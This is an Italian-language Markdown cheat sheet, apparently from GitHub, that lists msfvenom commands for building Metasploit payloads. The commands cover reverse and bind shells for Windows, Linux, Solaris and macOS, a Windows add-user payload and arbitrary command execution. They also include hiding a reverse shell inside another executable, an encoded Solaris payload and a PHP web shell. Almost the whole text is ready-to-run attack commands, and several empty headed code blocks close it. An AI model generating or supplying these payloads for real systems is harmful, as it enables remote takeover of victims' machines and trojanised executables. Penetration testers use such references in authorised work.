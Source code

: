 # MSFVENOM

#### Serve per creare shell 
[CheatSheet 1 - MSFVenom ](https://github.com/frizb/MSF-Venom-Cheatsheet)<br>


## Windows

### Reverse Shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP Address} LPORT={Porta} -f exe > {nomefile}.exe
```

### Bind Shell
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST={IP Address} LPORT={Port} -f exe > {nomefile}.exe
```

### Crea un user
```bash
msfvenom -p windows/adduser USER={nome utente} PASS={password} -f exe > {nomefile}.exe
```

### CMD SHELL

```bash
msfvenom -p windows/shell/reverse_tcp LHOST={IP Address} LPORT={Port} -f exe > {nomefile}.exe
```

### Execute Command
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="{comando}" -f exe > {nomefile}.exe
```
{comando} si puo intendere sia powershell specificandolo con "powershell \'{vari comandi}'"  oppure la normale cmd di windows (se avrò voglia vi metto qualche cosa di powershell e cmd di windows)

### Embedded inside executable(unire la shell ad un file)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -x {path eseguibile che vuoi unire} -f exe -o {nomefile}.exe
```

## Linux

### Reverse Shell
#### x86 
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```
#### x64
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```

### BIND SHELL
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```

## SunOS(Solaris)
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST={IP}  LPORT={Port} -f elf -e x86/shikata_ga_nai -b '\x00' > {nomefile}.elf
```

## MAC

### Reverse Shell
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST={IP} LPORT={Port} -f macho > {nomefile}.macho
```

### Bind Shell
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST={IP}  LPORT={Port} -f macho > {nomefile}.macho
```

## Web Based Shell

### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST={IP}  LPORT={Port}  -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### 
```bash

```

### 
```bash

```

### 
```bash

```